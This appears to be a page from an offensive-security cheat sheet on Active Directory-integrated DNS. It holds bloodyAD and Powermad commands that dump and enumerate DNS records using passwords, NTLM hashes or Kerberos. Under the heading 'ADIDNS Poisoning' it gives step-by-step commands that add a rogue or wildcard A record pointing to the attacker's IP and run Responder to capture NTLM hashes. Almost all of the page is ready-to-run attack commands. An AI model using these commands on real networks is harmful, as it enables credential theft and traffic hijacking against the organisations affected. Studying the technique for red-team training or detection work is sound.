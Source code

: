 ```yaml
---
title: "ADIDNS"
date: 2024-11-9
tags: ["Domain", "ADIDNS", "ADDS", "DNS", "PowerMad", "DNS Posioning", "Spoofing", "Windows", "Active Directory"]
---
```


### Basic

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. DNS Dump

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> get dnsDump
```

```console
# NTLM
bloodyAD -d <DOMAIN> -u '<USER>' -p ':<HASH>' -f rc4 --host <DC> get dnsDump
```

```console
# Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -k --host <DC> get dnsDump
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import Module

```console
. .\Powermad.ps1
```

#### 2. Enum

```console
# Get ADIDNS Zone
Get-ADIDNSZone
```

```console
# Get ADIDNS Permissions
Get-ADIDNSPermission
```

```console
# Remove a Node
Remove-ADIDNSNode -Node *
```

{{< /tabcontent >}}

### Abuse #1: ADIDNS Poisoning

{{< tab set2 tab1 >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Add a New A Record

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add dnsRecord <SUBDOMAIN> <LOCAL_IP>
```

```console
# NTLM
bloodyAD -d <DOMAIN> -u '<USER>' -p ':<HASH>' -f rc4 --host <DC> add dnsRecord <SUBDOMAIN> <LOCAL_IP>
```

```console
# Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -k --host <DC> add dnsRecord <SUBDOMAIN> <LOCAL_IP>
```

#### 2. Steal NTLM

```console
sudo responder -I tun0
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. Import Module

```console
. .\Powermad.ps1
```

#### 2. Create a New Node

```console
$dnsRecord = New-DNSRecordArray -Type A -Data <LOCAL_IP>
```

```console
New-ADIDNSNode -Node * -Tombstone -DNSRecord $dnsRecord -Verbose
```

#### 3. Check

```console
Resolve-DnsName DoesNotExist
```

#### 4. Steal NTLM

```console
sudo responder -I tun0
```

{{< /tabcontent >}}